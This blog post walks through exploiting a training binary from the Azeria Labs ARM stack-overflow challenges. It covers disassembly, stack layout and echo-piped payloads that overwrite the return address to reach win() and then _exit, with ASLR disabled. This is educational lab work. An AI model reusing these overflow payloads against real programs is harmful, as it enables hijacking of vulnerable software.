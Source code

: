 ```yaml
---
layout: post
title: "Smashing ARM Stack for Fun - Part V"
---
```


[Fifth challenge](https://github.com/azeria-labs/ARM-challenges)
with a small introduction to *process continuation*.<!--more-->


## Planning the exploit

```nasm
pwndbg> pdisass &main
 ► 0x10464 <main>       push   {fp, lr}
   0x10468 <main+4>     add    fp, sp, #4
   0x1046c <main+8>     sub    sp, sp, #0x48
   0x10470 <main+12>    str    r0, [fp, #-0x48]
   0x10474 <main+16>    str    r1, [fp, #-0x4c]
   0x10478 <main+20>    sub    r3, fp, #0x44
   0x1047c <main+24>    mov    r0, r3
   0x10480 <main+28>    bl     #gets@plt <gets@plt>

   0x10484 <main+32>    mov    r0, r3
   0x10488 <main+36>    sub    sp, fp, #4
   0x1048c <main+40>    pop    {fp, pc}
```

`sub r3, fp, #0x44` means that the buffer begins 0x44 bytes from `fp`,
the begin of the stack frame.

As we saw [previously](/articles/2021/01/14/Smashing-ARM-Stack-for-Fun-Part-I.html),
the stack frame includes the *previous* value
of `fp` but not `lr` which it is *immediately below*.

So a buffer overflow of 0x44 bytes will overwrite the stored `fp` and an
overflow of 0x48 will overwrite `fp` and `lr`.

If we do the latter, the function `main` will jump to
our own code on *return*.

{% marginnote
'The left diagram shows the stack from lower
addresses (left) to higher addresses (right) and the `main`&apos;s and
`__libc_start_main`&apos;s stack frames (`main` and `start` for short)
' %}


```nasm
    main --------------v------ start
.......   fp      lr   |  ??   ??   ??   ??
```

As you can see the `fp` and `lr` are stored in the stack as well as an
unknown local variables of `__libc_start_main`.

When the overflow occurs this is the result:

```nasm
    main ---------------v----- start
.......   fp      lr    | ??   ??   ??   ??         (pre-exploit)
    main ---------------v----- start
AAAAAAA   BB      addr1 | ??   ??   ??   ??         (overflow)
```

No more crazy stuff is needed here, we can jump to `win` (`addr1 == 0x1044c`)
directly.

## Exploit level 1

```shell
pi@raspberrypi:~$ echo -ne 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x4c\x04\x01\x00' | ./stack4
code flow successfully changed
Segmentation fault
```

Yeah! but that segfault looks sloppy.

## A more *polite* exploit

Once `win` executes it will pop from the stack the stored
`lr` and set it into `pc`.

We didn't call `win` with `bl` or similar so the `lr` was never
set correctly and the value pushed in the stack by `win` was garbage.

When `win` returns will jump to who-knows-where.

```nasm
    main ---------------v----- start
.......   fp      lr    | ??   ??   ??   ??         (pre-exploit)
    win ----------------v----- start
          BB      ??    | ??   ??   ??   ??         (win called)
                  ^
                  ret address of win
```

And if we don't jump to `win` exactly?

We could jump to the second instruction of `win`:
we will be **skipping** the `push`.

```nasm
pwndbg> pdisass &win
   0x1044c <win>        push   {fp, lr}
 ► 0x10450 <win+4>      add    fp, sp, #4
   0x10454 <win+8>      ldr    r0, [pc, #4]
   0x10458 <win+12>     bl     #puts@plt <puts@plt>

   0x1045c <win+16>     pop    {fp, pc}
```

In this way we can *emulate* the `push` of `fp` and `lr` adding 8 bytes
to our payload.

```nasm
    main ---------------v--------- start
.......   fp      lr    | ??    ??      ??   ??      (pre-exploit)
    main ---------------v--------- start
AAAAAAA   BB      addr1 | CC    addr2   ??   ??      (overflow extended)
                        v--------- start
          ??      ??    | CC    addr2 | ??   ??      (win called without push)
        ------ win -------------------^
```

So now we control where `win` will return: `addr2`.

## Planning a controlled exit

An ideal situation would make the program continue running after
exploiting it, known as
[process continuation shellcode](https://azeria-labs.com/process-continuation-shellcode/)
but it is too complex for now.

The simplest thing is to call
[`_exit`](https://linux.die.net/man/2/_exit)
a thin glib wrapper of [`exit_group`](https://man7.org/linux/man-pages/man2/exit_group.2.html)
syscall that exits the process and its threads.

```nasm
pwndbg> pdisass &_exit
 ► 0xb6f1b934 <_exit>       push   {r7, lr}
   0xb6f1b938 <_exit+4>     mov    r2, r0
   0xb6f1b93c <_exit+8>     mov    r7, #0xf8
   0xb6f1b940 <_exit+12>    svc    #0
   0xb6f1b944 <_exit+16>    cmn    r0, #0x1000
   0xb6f1b948 <_exit+20>    bhi    #_exit+68 <_exit+68>
```

The `svc #0` is what it triggers the syscall. In Arm 32bits the
instruction is `swi` but the disassembler renames it to the newer name:
*supervisor call*.

The syscall number is passed to the kernel via `r7` as mentioned in [man
syscall(2)](https://man7.org/linux/man-pages/man2/syscall.2.html).

In our case [0xf8 is the syscall number](https://github.com/torvalds/linux/blob/v4.17/arch/arm/tools/syscall.tbl#L265)
of
[`exit_group`](https://man7.org/linux/man-pages/man2/exit_group.2.html).

## Exploit level 2

We are going to cheat a little and disable ASLR so we can hardcode
the address of `_exit` (0xb6f1b934)

```shell
pi@raspberrypi:~$ setarch linux32 --addr-no-randomize /bin/bash
(aslr disabled) pi@raspberrypi:~$ echo -ne 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x50\x04\x01\x00BBBB\x34\xb9\xf1\xb6' | ./stack4
code flow successfully changed

(aslr disabled) pi@raspberrypi:~$ echo $?
31

(aslr disabled) pi@raspberrypi:~$ exit
exit
```

As you can see the return code of the process was 31. I corroborated
with a debugger the value of the registers before the syscall and `r0`
was 31 as expected.

Instead of jumping to `_exit` we could jump before to a piece of code
--known as gadget-- that sets `r0` to zero and then jump to `_exit`.

But that's for another post.

